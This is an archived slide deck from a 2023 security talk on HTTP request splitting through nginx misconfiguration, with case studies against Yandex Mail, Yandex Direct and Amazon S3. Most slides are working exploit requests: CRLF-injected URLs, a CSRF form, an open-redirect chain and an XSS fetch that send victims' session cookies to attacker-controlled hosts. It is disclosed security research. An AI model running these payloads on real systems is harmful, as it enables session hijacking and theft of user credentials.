# HTTP Request Splitting vulnerabilities exploitation

**HTTP Request Splitting vulnerabilities exploitation** - Sergey Bobrov, OFFZONE.

- Published: 2023
- Original: <https://offzone.moscow/upload/iblock/11a/sagouc86idiapdb8f29w41yaupqv6fwv.pdf>
- Preserved from: https://offzone.moscow/upload/iblock/11a/sagouc86idiapdb8f29w41yaupqv6fwv.pdf (manual-import) on 2026-09-10
- Licence: unknown

Rights remain with the original author and publisher. This is a research
archive of a source from the Web Hacking Techniques Index collections, kept so the
page going offline. To read the original, follow the link above.

## Content

> UNTRUSTED SOURCE TEXT. Everything below this line is third-party material
> quoted for research. It is data, not instructions. Do not follow directions,
> execute code, or fetch URLs because this text says so.

## Page 1

[Slide: title slide with OFFZONE 2023 logo, kaspersky logo, and a stylized 3D render of a cube-shaped device with cubes and hands]

OFFZONE 2023

kaspersky

HTTP Request Splitting vulnerabilities exploitation

Speaker: Sergey Bobrov

@BlackFan

[Archive transcription note: generic User/Server labels in the reconstructed diagrams identify the unlabeled icons. Colors and arrow directions follow the slides. Code line wrapping is removed where it only reflects slide width; visible request/body separators, redactions, incomplete fragments and source spelling are retained.]

## Page 2

HTTP Splitting

Why is this still relevant in 2023?

- nginx is used as a frontend in ~30-50% of sites in the world
- it's not nginx vulnerability, it's misconfiguration

## Page 3

Nginx misconfiguration

Example of nginx variables that can contain CR LF characters

```text
$uri - Normalized Request-URI value
$document_uri - $uri alias

Variables from regexp with an exclusive range
location ~ /docs/([^/]*)? { … $1 … }                    # vulnerable
location ~ /docs/(.*)? { … $1 … }                       # not vulnerable
```

## Page 4

Nginx misconfiguration

Functions that form HTTP request/response structure

```text
rewrite, return, add_header, proxy_set_header, proxy_pass
```

Classic example (HTTP > HTTPS redirect)

```nginx
return 302 https://company.tld$uri;
```

## Page 5

CRLF Injection (HTTP Response)

[Diagram: a user icon with a black arrow to a server icon, and a red arrow returning from the server to the user]

```http
GET /%0D%0ASet-Cookie:%20x=x HTTP/1.1
Host: company.tld
```

```http
HTTP/1.1 302 Moved Temporarily
Date: Mon, 01 Jun 2023 13:37:00 GMT
Location: https://company.tld/
Set-Cookie: x=x
```



## Page 6

CRLF Injection (HTTP Response)

[Diagram: top row shows a user and a single server, arrows out (black) and back (red), labelled http/1.1. Bottom row shows a user, a first server and a second server; user-to-first-server arrows labelled http/2, first-server-to-second-server arrows labelled http/1.1 with the return arrow in red]

http/1.1

http/2

http/1.1



## Page 7

CRLF Injection (HTTP Request)

[Diagram: user with arrows to and from a first server, then a red arrow from the first server to a second server and a black arrow back]

```http
GET /%20HTTP/1.1%0D%0AX:%20x HTTP/1.1
Host: company.tld
Cookie: sessionid=xxx;
```

```http
GET / HTTP/1.1
X: x HTTP/1.1
Host: www.company.tld
Cookie: sessionid=xxx;
```



## Page 8

CRLF Injection (HTTP Request)

The exploitation and detection of the vulnerability depends on what can be controlled in the request.

```http
GET /api/[INJ]?foo=bar&baz=[INJ] HTTP/1.1
Host: backend
Cookie: sessionid=xxx;
X-Header: [INJ]
```

## Page 9

Detection methods

[Table: two rows, URL on the left and observed response on the right]

```text
http://company.tld/%20X                    Any HTTP code
http://company.tld/%20H                    400 Bad Request
```

```http
GET / H HTTP/1.1
Host: company.tld
Cookie: sessionid=xxx;
```

[Screenshot: nginx error page showing "400 Bad Request" with "nginx/1.17.6" below a horizontal rule]

## Page 10

Detection methods

[Table: two rows, URL on the left and observed response on the right]

```text
http://company.tld/%20HTTP/1.1%0D%0AX:%20x        Any HTTP code
http://company.tld/%20HTTP/13.37%0D%0AX:%20x      505 HTTP Version Not Supported
```

```http
GET / HTTP/13.37
X: x HTTP/1.1
Host: company.tld
Cookie: sessionid=xxx;
```

[Screenshot: nginx error page showing "505 HTTP Version Not Supported" with "nginx/1.17.6" below a horizontal rule]

## Page 11

Detection methods

[Table: two rows, URL on the left and observed response on the right]

```text
http://company.tld/%20HTTP/1.1%0D%0AXXXX:%20x       Any HTTP code
http://company.tld/%20HTTP/1.1%0D%0AHost:%20x       400 Bad Request
```

```http
GET / HTTP/1.1
Host: x HTTP/1.1
Host: company.tld
Cookie: sessionid=xxx;
```

[Screenshot: nginx error page showing "400 Bad Request" with "nginx/1.17.6" below a horizontal rule]

## Page 12

Detection methods

Vulnerability often is triggered before the authorization check

[Diagram: user with black arrow to a first server and red arrow back; red arrows both ways between the first and second server labelled "CRLF Injection"; black arrows both ways between the second server and a database icon labelled "Auth check"]

CRLF Injection

Auth check



## Page 13

CRLF Injection (HTTP Response)

- Exploitation of non-exploitable bugs
  - XSS via HTTP Header, via raw Request-URI
- Possibility to send two+ requests
  - Potential HTTP Desync attacks
- Access to other backend vhosts
- Web Cache poisoning vulns
- WAF bypass
- Attacks that require custom headers
- Etc…

## Page 14

[Slide: section divider with OFFZONE 2023 logo and a 3D render of a cube-shaped device]

Case #1

mail.yandex.ru

## Page 15

Case #1: mail.yandex.ru

```nginx
location ^~ /lite/api/ {
    proxy_pass http://lite-backend$uri$is_args$args;
}
```

```http
GET /lite/api/%20HTTP/1.1%0D%0AX:%20x HTTP/1.1
Host: mail.yandex.ru
Cookie: Session_id=xxx;
```

```http
GET /lite/api/ HTTP/1.1
X: x HTTP/1.1
Host: mail.yandex.ru
Cookie: Session_id=xxx;
```

## Page 16

Case #1: mail.yandex.ru

What can an attacker control in HTTP request?

```http
GET /lite/api/[INJ] HTTP/1.1
Host: mail.yandex.ru
Cookie: yandexuid=[…]; Session_id=[…];
User-Agent: Mozilla/5.0
Connection: close
```

## Page 17

Case #1: mail.yandex.ru

Adding custom HTTP headers

```http
GET /lite/api/[INJ] HTTP/1.1
Arbitrary-Header: HTTP/1.1
Host: mail.yandex.ru
Cookie: yandexuid=[…]; Session_id=[…];
User-Agent: Mozilla/5.0
Connection: close
```

## Page 18

Case #1: mail.yandex.ru

Partial control of the Request-Path

[Diagram: user with arrows to and from a first server, labelled /%252e%252e/; then a red arrow from the first server to a second server labelled /%2e%2e/ and a black arrow back]

/%252e%252e/

/%2e%2e/



## Page 19

Case #1: mail.yandex.ru

Partial control of the Request-Path

```http
GET /lite/api/%2e%2e/arbitrary/path HTTP/1.1
Arbitrary-Header: HTTP/1.1
Host: mail.yandex.ru
Cookie: yandexuid=[…]; Session_id=[…];
User-Agent: Mozilla/5.0
Connection: close
```

## Page 20

Case #1: mail.yandex.ru

Changing the HTTP method (CSRF-like)

```http
POST /lite/api/%2e%2e/arbitrary/path HTTP/1.1
Arbitrary-Header: HTTP/1.1
Host: mail.yandex.ru
Cookie: yandexuid=[…]; Session_id=[…];
User-Agent: Mozilla/5.0
Content-Type: application/x-www-form-urlencoded
Connection: close

key=value
```

## Page 21

Case #1: mail.yandex.ru

```http
POST /lite/api/%2e%2e/arbitrary/path HTTP/1.1
Host: mail.yandex.ru

param= HTTP/1.1
Host: mail.yandex.ru
Cookie: yandexuid=[…]; Session_id=[…];
[…]

&param2=value
```

## Page 22

Case #1: mail.yandex.ru

```http
POST /lite/api/%2e%2e/arbitrary/path HTTP/1.1
Host: mail.yandex.ru
Cookie: Session_id=<attacker_session_id>;

param= HTTP/1.1
Host: mail.yandex.ru
Cookie: yandexuid=[…]; Session_id=[…];
[…]

&param2=value
```

## Page 23

Case #1: mail.yandex.ru

Pros and cons of this type of vulnerability exploitation

- Exploitation of the vulnerability does not depend on the settings and privileges of the client
- Value of the CSRF token is known to the attacker

- Samesite cookies

## Page 24

Case #1: mail.yandex.ru

Email signature:

- Supports multiline value
- Has no limits on the range of allowed characters
- Has no limit on the maximum length of a value

[Screenshot: browser window showing Yandex Mail settings page]

Yandex mail

Mail  Disk  Money  Web  Images  Maps  Translate  more

Inbox 237
Junk
Archive
Sent
Trash
Spam 1
Drafts
  Templates

Flagged  Unread

Mail settings

Name
[empty text field]

Signature
[empty textarea]

- group by subject
- show ads

Save changes

Interface language
English

After a message has been delete[d]
- current folder
- next message

After a message has been sent
- save in "Sent" folder

Show images
- in all messages
- including spam

Change password

[The selected radio option is the current folder; next message is unselected. The visible subject grouping, advertising, sent-copy, image loading and spam options are unchecked.]

## Page 25

Case #1: mail.yandex.ru

```http
POST /lite/api/%2e%2e/%2e%2e/lite/setup-action.xml HTTP/1.1
Host: mail.yandex.ru
Cookie: Session_id=<attacker_session_id>;
Content-Length: 5000
Content-Type: application/x-www-form-urlencoded

_ckey=<attacker_CSRF_token>&signature= HTTP/1.1
Host: mail.yandex.ru
Cookie: yandexuid=[…]; Session_id=[…];
[…]
&x=padding[…5000…]padding
```

[Annotation: a brace marks the last five lines, labelled "http body"]

## Page 26

Case #1: mail.yandex.ru

```html
<form
action="https://mail.yandex.ru/lite/api/%252e%252e/%252e%252e/lite/setup-action.xml%20HTTP/1.1%0D%0AHost:mail.yandex.ru%0D%0ACookie:Session_id=<attacker_session_id>%3b%0D%0AContent-Length:5000%0D%0AContent-Type:application/x-www-form-urlencoded%0D%0A%0D%0A_ckey=<attacker_CSRF_token>&signature="
method="POST">

<input type="hidden" name="x" value="padding[…5000…]padding" />
<input type="submit" value="Submit request" />

</form>
```

## Page 27

Case #1: mail.yandex.ru

```http
POST /lite/api/%2e%2e/%2e%2e/lite/setup-action.xml HTTP/1.1
Host: mail.yandex.ru
Cookie: Session_id=<attacker_session_id>;
Content-Length: 5000
Content-Type: application/x-www-form-urlencoded

_ckey=<attacker_CSRF_token>&signature= HTTP/1.1
Host: mail.yandex.ru
Cookie: yandexuid=[…]; Session_id=[…];
[…]
&x=padding[…5000…]padding
```

[Annotation: an arrow points to the highlighted region covering "HTTP/1.1", "Host: mail.yandex.ru" and "Cookie: yandexuid=[…]"]

signature parameter contains only this data



## Page 28

Case #1: mail.yandex.ru

```http
POST /lite/api/%2e%2e/%2e%2e/lite/setup-action.xml HTTP/1.1
Host: mail.yandex.ru
Cookie: Session_id=<attacker_session_id>;
Content-Length: 5000
Content-Type: application/x-www-form-urlencoded

_ckey=<attacker_CSRF_token>&signature= HTTP/1.1
Host: mail.yandex.ru
Cookie: yandexuid=[…]; Session_id=[…];
[…]
&x=padding[…5000…]padding
```

Symbol ";" like "&"
is the parameter separator

[Image: cartoon of a shouting character with raised fists in front of a brick wall]

[The yellow highlight stops before the semicolon after yandexuid; the slide compares the semicolon with an ampersand as a parameter separator.]

## Page 29

Case #1: mail.yandex.ru

OK, cookie leak is not possible via application/x-www-form-urlencoded on this case.

But what about multipart/form-data?

## Page 30

Case #1: mail.yandex.ru

```http
POST /lite/api/%2e%2e/%2e%2e/lite/setup-action.xml HTTP/1.1
Host: mail.yandex.ru
[…]
Content-Type: multipart/form-data; boundary=xxx

--xxx
Content-Disposition: form-data; name="_ckey"

<attacker_CSRF_token>
--xxx
Content-Disposition: form-data; name="signature"

PoC: HTTP/1.1
Host: mail.yandex.ru
X-Original-Uri: /lite/api/%252e%252e/[…]%0D%0A%0D%0A--xxx%0D%0AContent-Disposition:[…]
Cookie: yandexuid=[…]; Session_id=[…];
User-Agent: Mozilla/5.0
[…]
--xxx--
padding[…5000…]padding
```

## Page 31

Case #1: mail.yandex.ru

```http
POST /lite/api/%2e%2e/%2e%2e/lite/setup-action.xml HTTP/1.1
Host: mail.yandex.ru
[…]
Content-Type: multipart/form-data; boundary=xxx

--xxx
Content-Disposition: form-data; name="_ckey"

<attacker_CSRF_token>
--xxx
Content-Disposition: form-data; name="signature"

PoC: HTTP/1.1
Host: mail.yandex.ru
X-Original-Uri: /lite/api/%252e%252e/[…]%0D%0A%0D%0A--xxx%0D%0AContent-Disposition:[…]
Cookie: yandexuid=[…]; Session_id=[…];
User-Agent: Mozilla/5.0
[…]
--xxx--
padding[…5000…]padding
```

[Annotation: an arrow points to the highlighted region running from "PoC: HTTP/1.1" through "…%0D%0A%0D%0A" on the X-Original-Uri line]

signature parameter contains only this data



[The highlighted X-Original-Uri prefix ends immediately before the multipart delimiter --xxx.]

## Page 32

Case #1: mail.yandex.ru

```http
POST /lite/api/%2e%2e/%2e%2e/lite/setup-action.xml HTTP/1.1
Host: mail.yandex.ru
[…]
Content-Type: multipart/form-data; boundary=xxx

--xxx
Content-Disposition: form-data; name="_ckey"

<attacker_CSRF_token>
--xxx
Content-Disposition: form-data; name="signature"

PoC: HTTP/1.1
Host: mail.yandex.ru
X-Original-Uri: /lite/api/%252e%252e/[…]%0D%0A%0D%0A--xxx%0D%0AContent-Disposition:[…]
Cookie: yandexuid=[…]; Session_id=[…];
User-Agent: Mozilla/5.0
[…]
--xxx--
padding[…5000…]padding
```

[Image: cartoon of a shouting character with raised fists in front of a brick wall]

X-Original-Uri
contains a boundary

## Page 33

Case #1: mail.yandex.ru

```http
POST /lite/api/%2e%2e/%2e%2e/lite/setup-action.xml HTTP/1.1
Host: mail.yandex.ru
[…]
Content-Type: multipart/form-data; boundary=x.x

--x.x
Content-Disposition: form-data; name="_ckey"

<attacker_CSRF_token>
--x.x
Content-Disposition: form-data; name="signature"

PoC: HTTP/1.1
Host: mail.yandex.ru
X-Original-Uri: /lite/api/%252e%252e/[…]%0D%0A%0D%0A--x%2ex%0D%0AContent-Disposition:[…]
Cookie: yandexuid=[…]; Session_id=[…];
User-Agent: Mozilla/5.0
[…]
--x.x--
padding[…5000…]padding
```

[The yellow signature-value highlight now includes the full X-Original-Uri, Cookie and User-Agent lines and the ellipsis. Cyan highlights compare the literal x.x boundary with --x%2ex in the encoded URI.]

## Page 34

Case #1: mail.yandex.ru

[Screenshot: browser at https://mail.yandex.ru/lite/setup showing the Yandex Mail settings page, with the injected request text filling the Signature textarea; two handwritten labels point into it. Several values are redacted with grey bars.]

Yandex mail

Mail  Disk  Money  Web  Images  Maps  Translate  more

Inbox 225
Junk
Archive
Sent
Trash
Spam 2
Drafts
  Templates

Flagged  Unread
123g

Mail settings

Name
[empty text field]

Signature

```text
PoC: HTTP/1.1
Host: mail.yandex.ru
X-Real-IP: [redacted]
X-Real-Port: 64806
X-Original-Uri: /lite/api/%252e%252e/%252e%252e/lite/setup-action.xml%20HTTP/1.1%0D%0AHost:mail.yandex.ru%0D%0ACookie:Session_id=[redacted]%0D%0Ax-request-id:3f8082a6ea46e8a859c17eaea6d75275%0D%0AContent-Length:3000%0D%0AContent-Type:multipart/form-data%3Bboundary=xx%252Exx%0D%0A%0D%0A--xx%252Exx%0D%0AContent-Disposition%3A%20form-data%3B%20name%3D%22_ckey%22%0D%0A%0D%0A[redacted]%0D%0A--xx%252Exx%0D%0AContent-Disposition%3A%20form-data%3B%20name%3D%22signature%22%0D%0A%0D%0APoC:%3A
X-Original-Host: mail.yandex.ru
X-Request-Id: e25b464a6cc4577e7b495a17eb5dcef5
X-Forwarded-For: [redacted]
X-Https-Request: yes
SSL-Cipher: TLS_AES_256_GCM_SHA384
Content-Length: 3
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="113", "Chromium";v="113", "Not-A.Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: ru-RU,ru;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: [redacted]; yandexuid=[redacted];
yuidss=[redacted];
ymex=[redacted];
i=[redacted];
[redacted] yandex_login=BlackFan; [redacted]
Session_id=[redacted]
```

Interface language
English

After a message has been deleted go to
- current folder
- next message

After a message has been sent
- save in "Sent" folder

Show images
- in all messages
- including spam

Change password

Attacker Session_id
Client Session_id



## Page 35

Case #2

direct.yandex.ru

## Page 36

Case #2: direct.yandex.ru

```nginx
location ~ ^/dna/payment {
  rewrite ^/dna/([^/]+) /registered/main.pl?cmd=unifiedPayment&context=$1&native_uri=$uri break;
  proxy_pass http://$back;
```

```http
GET /dna/payment/x%20HTTP/1.1%0D%0AX:x HTTP/1.1
Host: direct.yandex.ru
Cookie: Session_id=xxx;
```

```http
GET /registered/main.pl?cmd=unifiedPayment&
context=payment&native_uri=x HTTP/1.1
X:x HTTP/1.1
Host: direct.yandex.ru
Cookie: Session_id=xxx;
```

## Page 37

Case #2: direct.yandex.ru

The exploitation of the vulnerability is complicated by the static path

```http
GET /registered/main.pl?cmd=unifiedPayment&context=payment&native_uri=x HTTP/1.1
CRLF: Injection HTTP/1.1
Host: direct.yandex.ru
Cookie: Session_id=xxx;
```

## Page 38

Case #2: direct.yandex.ru

What if we use HTTP Parameter Pollution?

```http
GET /registered/main.pl?cmd=unifiedPayment&context=payment&native_uri=x&cmd=foobar HTTP/1.1
CRLF: Injection HTTP/1.1
Host: direct.yandex.ru
Cookie: Session_id=xxx;
```

## Page 39

Case #2: direct.yandex.ru

The extra GET parameter didn't work, but the POST was successful

```http
POST /registered/main.pl?cmd=unifiedPayment&context=payment&native_uri=x HTTP/1.1
CRLF: Injection HTTP/1.1
Host: direct.yandex.ru
Cookie: Session_id=xxx;
Content-Type: application/x-www-form-urlencoded

cmd=foobar
```

## Page 40

Case #2: direct.yandex.ru

Now we need to find a way to extract the data

```perl
sub cmd_unlockCamp :Cmd(unlockCamp)
    :Description('разблокировака кампании')
    :Rbac(Code => rbac_cmd_by_owners, ExceptRole => [media, superreader,
limited_support])
{
    [...]
    my %FORM = %{$_[0]{FORM}};
    [...]
    if($FORM{retpath}) {
        return redirect($r, $FORM{retpath});
```

## Page 41

Case #2: direct.yandex.ru

Yep, we will use Open Redirect

```http
POST /registered/main.pl?cmd=unifiedPayment&context=payment&native_uri=x HTTP/1.1
CRLF: Injection HTTP/1.1
Host: direct.yandex.ru
Cookie: Session_id=xxx;
Content-Type: application/x-www-form-urlencoded

cmd=unlockCamp&retpath=/\attacker.tld/
```

## Page 42

Case #2: direct.yandex.ru

CRLF Injection

HTTP Parameter Pollution

Open Redirect

[Diagram: a brace groups the three items above and points to the text on the right]

Leak httpOnly cookie Session_id



## Page 43

Case #2: direct.yandex.ru

```http
POST /registered/main.pl?cmd=unifiedPayment&context=payment&native_uri=? HTTP/1.1
Host: direct.yandex.ru
Cookie: Session_id=<attacker_session_id>;
Content-Type: multipart/form-data; boundary=wrw
Content-Length: 12000

[…]

--wrw
Content-Disposition: form-data; name="retpath"

/\attacker.tld/? HTTP/1.1
Host: direct.yandex.ru
[…]
Cookie: Session_id=xxx;
--wrw--
padding[…12000…]padding
```

## Page 44

Case #2: direct.yandex.ru

[Diagram: a user icon, two black server icons and a red server icon labelled attacker.tld, connected by arrows]

CRLF Injection
+
Open Redirect

[black arrow from user to first server; red arrow from first server to second server; green arrows back from second server to first server and from first server to user; red arrow from the user down to the red server]

/\attacker.tld? + Cookie

Session_id

attacker.tld



## Page 45

Case #2: direct.yandex.ru

[Screenshot: Burp Suite "Response" panel with tabs Pretty, Raw, Hex, Render; several values redacted with grey bars]

```http
HTTP/1.1 302 Found
Connection: Close
Content-Length: 3468
Content-Type: text/html; charset=iso-8859-1
Date: Wed, 21 Jun 2023 10:04:49 GMT
Location: /\attacker.tld? HTTP/1.0 X-Real-IP: [redacted] Host: direct.yandex.ru X-Real-SSL-Protocol: TLSv1.2 Connection: close Content-Length: 12489 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7 Accept-Encoding: gzip, deflate Accept-Language: en,en-US;q=0.9 Cache-Control: max-age=0 Content-Type: application/x-www-form-urlencoded Cookie: gdpr=0; [redacted] yandexuid=[redacted]; yuidss=[redacted]; i=[redacted]; ymex=[redacted]; yandex_login=[redacted]; bh=[redacted] [redacted]; Session_id=[redacted] [redacted]; sessar=[redacted]; sessionid2=[redacted] [redacted]; is_gdpr=0; is_gdpr_b=[redacted] Origin: https://blackfan.ru Referer: https://blackfan.ru/ Sec-Fetch-Dest: document Sec-Fetch-Mode: navigate Sec-Fetch-Site: cross-site Sec-Fetch-User: ?1 Upgrade-Insecure-Requests: 1 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.134 Safari/537.36 X-Antirobot-Jws-Info: INVALID X-Antirobot-Robotness-Y: 0.0 X-Antirobot-Service-Y: direct X-Awacs-Get-HTTP: true X-Forwarded-For: [redacted] X-Forwarded-For-Y: [redacted] X-Forwarded-Proto: https X-Forwared-Host: direct.yandex.ru X-Req-Id:
```

## Page 46

Case #2: direct.yandex.ru

Cookie values can contain the # symbol, so the attacker's site needs to save not only the request data, but also the location.hash.

```http
HTTP/1.1 302 Found
Connection: close
[…]
Location: /\attacker.tld? HTTP/1.0 […] Cookie: param=value#value; Session_id=[…];
```

## Page 47

[Slide: title slide with OFFZONE 2023 logo and a stylized blue-lit hardware device on the right]

Case #3

Amazon S3

## Page 48

Case #3: Amazon S3

```nginx
location /s3/ {
    proxy_pass https://company-bucket.s3.amazonaws.com$uri;
}
```

Frans Rosén
https://labs.detectify.com/2021/02/18/middleware-middleware-everywhere-and-lots-of-misconfigurations-to-fix/

## Page 49

Case #3: Amazon S3

```http
GET /s3/xss.html%20HTTP/1.1%0d%0aHost:attacker-bucket%0d%0a%0d%0a HTTP/1.1
Host: company.tld
Cookie: sessionid=xxx;
```

```http
GET /s3/xss.html HTTP/1.1
Host: attacker-bucket

 HTTP/1.1
Host: company.tld
Cookie: session=xxx;
```

## Page 50

Case #3: Amazon S3

[Diagram: attack flow from a user through company.tld to Amazon s3, with a red arrow diverting to attacker-bucket instead of company-bucket]

Text inside the diagram:
- CRLF Injection
- company.tld
- Amazon s3
- company-bucket
- attacker-bucket
- public /s3/xss.html



[The company-bucket icon is shown without a connecting arrow.]

## Page 51

Case #3: Amazon S3

This is a great XSS example, but what if we could make it even better?

In fact, we control not only the content stored on S3, but also the bucket settings

```http
GET /s3/xss.html HTTP/1.1
Host: attacker-bucket

 HTTP/1.1
Host: company.tld
Cookie: session=xxx;
```

(the line `Cookie: session=xxx;` is highlighted in yellow)

## Page 52

Case #3: Amazon S3

Set the following bucket policy

```json
{
    "Version": "2012-10-17",
    "Id": "Policy1687790232544",
    "Statement": [
        {
            "Sid": "Stmt1687790230460",
            "Effect": "Allow",
            "Principal": "*",
            "Action": [
                "s3:PutObject",
                "s3:GetObject"
            ],
            "Resource": "arn:aws:s3:::attacker-bucket/*"
        }
    ]
}
```

## Page 53

Case #3: Amazon S3

Now reuses existing XSS for PUT request

```html
<script>
fetch(
  '/s3/PoC.txt%20HTTP/1.1%0D%0AHost:attacker-bucket%0D%0AContent-Length:1000%0D%0A%0D%0A',
  {
    method: 'PUT',
    body: 'x'.repeat(1000),
    headers: {
      'Content-Type': 'text/plain'
    },
    credentials: 'include'
  }
)
</script>
```

## Page 54

Case #3: Amazon S3

Now reuses existing XSS for PUT request

```http
PUT /s3/PoC.txt HTTP/1.1
Host: attacker-bucket
Content-Length: 1000

 HTTP/1.1
Host: company.tld
Cookie: secret=value;
Content-Length: 1000

xxx[…1000…]xxx
```

## Page 55

Case #3: Amazon S3

https://attacker-bucket.s3.amazonaws.com/s3/PoC.txt

[Screenshot: Burp Suite Response panel, Raw tab, showing an S3 response whose body contains an HTTP request tail; a brace on the left labels lines 13-28 as "file content"]

